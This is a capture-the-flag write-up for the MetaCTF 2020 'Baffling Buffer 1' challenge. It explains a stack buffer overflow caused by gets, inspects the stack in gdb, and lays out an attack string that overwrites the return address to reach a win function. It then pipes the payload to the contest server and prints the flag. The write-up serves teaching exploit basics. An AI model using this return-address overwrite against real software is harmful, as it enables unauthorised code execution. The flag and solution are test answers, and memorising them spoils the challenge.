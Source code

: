 # Baffling Buffer 1

The following is a walk-through of a problem taken from [MetaCTF](https://metactf.com/) CyberGames 2020. I have no idea how long their server will keep hosting this problem. No copyright infringement is intended.

## Problem

After pointing out the initial issue, the developers issued a new update on the login service and restarted it at `host1.metaproblems.com 5151`. Looking at the [binary](bb1) and [source code](bb1.c), you discovered that this code is still vulnerable.

## Solution

### Examining the Stack Layout

The C code is fairly simple. If the user enters `"Sup3rs3cr3tC0de"`, then `"Access granted!"` is printed. `"Invalid auth."` is supposed to be printed for any other inputs. This, however, is not the flag we are looking for. It appears from the code that if the function `win` were to somehow be executed, then the flag would be printed.

As the name suggests, the function `vuln` has a buffer overflow vulnerability due to it's use of the notoriously dangerous `gets`. We can get a better understanding of the stack layout by using GNU debugger.

```sh
chmod u+x bb1
gdb --quiet bb1
```

After executing `break vuln` and `run`, the program will run until it hits the breakpoint in `vuln`.

```txt
(gdb) break vuln
Breakpoint 1 at 0x401190
(gdb) run
Starting program: [redacted]

Breakpoint 1, 0x0000000000401190 in vuln ()
```

The output of `backtrace` shows where execution left off in each function. How do programs remember where each function left off? Every time `f` calls `g`, `f` pushes its "where I left off" address to the stack before jumping to `g`.

```txt
(gdb) backtrace
#0  0x0000000000401190 in vuln ()
#1  0x0000000000401238 in main ()
```

The output of `x/5i vuln` shows an assembler code dump of the first 5 instructions of `vuln` and also shows an arrow pointing at the next instruction to be executed. The next instruction `sub $0x30,%rsp` is for allocating 48 bytes on the stack for `char buf[48]`.

```txt
(gdb) x/5i vuln
   0x40118c <vuln>:     push   %rbp
   0x40118d <vuln+1>:   mov    %rsp,%rbp
=> 0x401190 <vuln+4>:   sub    $0x30,%rsp
   0x401194 <vuln+8>:   lea    0xe7b(%rip),%rdi        # 0x402016
   0x40119b <vuln+15>:  callq  0x401030 <puts@plt>
```

The output of `x/2a $rsp` shows two address-width (8 bytes each) values on the top of the stack. Since `push %rbp` was the most recent stack operation, the saved value of `%rpb` resides on the top of the stack. Next comes the address `0x401238` which is the same address we saw in `backtrace`.

Note that the saved value of `%rbp` will vary due to [address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization). However, we can disregard this value because it is not popped until the second-to-last instruction of `main`.

```txt
(gdb) x/2a $rsp
0x7fffffffdba0: 0x7fffffffdbb0  0x401238 <main+74>
```

Using `print win` is one of **many** ways to obtain the address of `win`. The goal of our attack will be to overwrite the return address `0x401238` with `0x401172` so that control goes to `win` instead of back to `main`.

```txt
(gdb) print win
$1 = {<text variable, no debug info>} 0x401172 <win>
```

### Crafting the Attack String

We have located the region of memory that needs to be overwritten. A couple of considerations must be made for the attack string.

1. The string must start with the access code, otherwise `exit(-1)` will be executed and the attack will fail.
2. Memory addresses are 8 bytes, stored in little endian. This means the lowest bytes must be printed out first.

Here is a table that describes all of the contents of the attack string.

| #    | Bytes | Contents                             |
| :--- | :---- | :----------------------------------- |
| 1    | 16    | `"Sup3rs3cr3tC0de"`, ends with `NUL` |
| 2    | 32    | Padding, any character sequence      |
| 3    | 8     | Any address                          |
| 4    | 8     | `0x401172` in little endian          |
| 5    | 1     | Line feed                            |

The string that needs to be typed in contains unprintable characters. Therefore, I created a small C program [`mal.c`](mal.c) that outputs the necessary string.

```sh
gcc mal.c -o mal
echo 'dummy flag' > flag.txt
./mal | ./bb1
```

This did not work locally on my machine. Running it with `gdb` told me that `flag.txt` did not exist. I suspect this is some kind of binary compatibility issue. However, this did work on the real problem server which is good enough.

```sh
./mal | nc host1.metaproblems.com 5151
```

```txt
Enter the access code:
Access granted!
MetaCTF{c_strings_are_the_best_strings}
```

The flag has been captured! I hope you enjoyed this demo.

:triangular_flag_on_post:
